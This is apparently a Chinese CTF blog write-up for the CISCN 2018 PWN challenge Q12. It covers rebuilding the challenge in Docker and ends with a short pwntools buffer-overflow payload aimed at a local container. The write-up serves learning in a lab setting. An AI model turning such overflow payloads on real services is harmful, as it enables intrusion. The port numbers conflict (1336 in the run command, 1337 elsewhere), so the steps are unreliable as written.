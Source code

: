 ```yaml
---
title: 'CISCN 2018 华中赛区 Q12'
date: 2018-06-07 20:43:15
tags:
    - CTF
    - PWN
categories:
    - 'Write Up'
---
```


第一次在CTF比赛中尝试解PWN题，先把PWN题的环境放上来，本次虚拟机环境情况为 Ubuntu 18.04 LTS，使用docker配置环境，后续会把整个题解出来

<!--more-->
## CTF环境Docker复现

本次复现使用 Docker 复现，保证环境可以正常运行，环境Docker原始文件下载：[ciscn-q12](ciscn-center-zone-q12/ciscn-12-docker.zip)

###  步骤1：安装Docker

本次虚拟机环境情况为 Ubuntu 18.04 LTS，安装docker和docker-compose

```bash
sudo apt-get install docker docker-compose
```

![](ciscn-center-zone-q12/1.png)

###  步骤2：运行Docker服务

```bash
sudo service docker start
```
![](ciscn-center-zone-q12/2.png)

## 步骤3：构建Docker环境

我们下载好Docker的环境：[ciscn-q12](ciscn-center-zone-q12/ciscn-12-docker.zip) 然后解压到环境根目录，打开终端，运行命令：

```bash
sudo docker build -t pwn12 .
```

![](ciscn-center-zone-q12/3.png)

## 步骤4：运行Docker环境

构建完成docker镜像后，运行环境，使用`docker ps`查看运行情况

```bash
sudo docker run -d -p 1336:1336 pwn12
sudo docker ps
```

![](ciscn-center-zone-q12/4.png)

从上图可以看到，我们的docker已经在监听 1337 号端口了。

## 步骤5：运行不完全的Payload

在比赛的时候我写了一个不完整的payload,只能加载部分的flag,为了验证环境是否安装完成，测试下

```python
from pwn import *
sh = remote('127.0.0.1',1337)
target = 0x61616161
sh.sendline('A'*(0X1C+8)+p32(target))
sh.interactive()
```

![](ciscn-center-zone-q12/5.png)

从图可以看到我们读取了部分Flag

> 根据出题人的意思，应该到这步就可以了的，但是由于未考虑到环境的FLAG长度，所以使本题目由签到题变成了入门题
